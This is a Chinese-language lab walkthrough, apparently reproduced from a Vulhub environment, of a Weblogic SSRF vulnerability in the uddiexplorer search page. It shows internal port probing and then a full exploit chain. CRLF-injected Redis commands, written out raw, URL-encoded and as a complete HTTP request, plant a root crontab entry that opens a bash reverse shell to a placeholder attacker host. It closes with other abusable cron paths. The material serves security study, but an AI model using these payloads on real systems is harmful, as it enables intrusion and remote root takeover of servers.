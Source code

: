 # Weblogic SSRF漏洞

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

![image-20220302210736666](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022107741.png)

## 漏洞复现

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![image-20220302211012943](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022110046.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![image-20220302211141064](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022111161.png)

通过错误的不同，即可探测内网状态。

### 反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

> 此处kali启动redis失败，转为CentOS vps进行复现。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![image-20220302220543308](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022205403.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功反弹：

![image-20220302220843300](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022208358.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件

